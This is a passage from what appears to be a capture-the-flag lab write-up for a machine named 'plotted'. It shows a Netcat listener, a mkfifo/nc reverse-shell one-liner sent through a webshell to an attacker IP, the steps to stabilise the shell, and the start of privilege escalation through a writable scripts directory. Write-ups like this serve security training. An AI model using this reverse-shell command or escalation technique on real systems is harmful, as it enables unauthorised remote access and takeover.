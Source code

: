 To get a reverse shell, we will first start our [Netcat](https://linux.die.net/man/1/nc) listener on our attacking machine:

```sh
nc -nvlp 4444
```

Then on the webshell we send the command:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

![00b572fc0210c3c91fff7f93d94cc93f.png](/resources/9e941a2b11be44e09a674976c2de8b20.png)

After pressing the "Send" button, we check back to our Netcat listener for the connection from the victim machine:

![f3ad9082e9d82396e45cc0669bc39aea.png](/resources/0360cb1588b7470f85ae65250c807d9c.png)

Let's stablize the shell we just got by doing the following steps:

1. `python3 -c 'import pty;pty.spawn("/bin/bash")'` ... Use Python to spawn a stable shell
2. `CTRL + Z` ... Backgrounds the current shell
3. `stty raw -echo;fg` ... Fixes echoing and foregrounds the shell
4. `export TERM=xterm-256color` ... Sets terminal to xterm

# Privilege Escalation

### \[-] plot\_admin\@plotted

After some enumeration, we will find a script named "`backup.sh`" in the `/var/www/scripts/` directory. The script is using rsync to make a backup of the `/var/www/html/management` directory and saving it to `/home/plot_admin/tms_backup`:

```sh
cat /var/www/scripts/backup.sh
```

![84662c1f13299a9fb26c3d2536b2bfcd.png](/resources/5ac7b789a8bb4d87982c966f5af7c0a2.png)

Checking the permissions of the script shows that it is owned by the user `plot_admin`:

```sh
ls -lah /var/www/scripts/backup.sh
```

![cbb16646ef50365878276e05a00efe04.png](/resources/d846e3b2db1948dc89f90f09e54cbdd2.png)

But, if we check the permissions of the `/var/www/scripts/` directory, it is owned by our current user, `www-data` which means we have the permissions to modify anything in the directory:

```sh
ls -lah /var/www/scripts/
```

![59d1d4a84fad66844222611b60c1e04a.png](/resources/1e59b2a3e93f43d3a260fb0d919ebc8e.png)
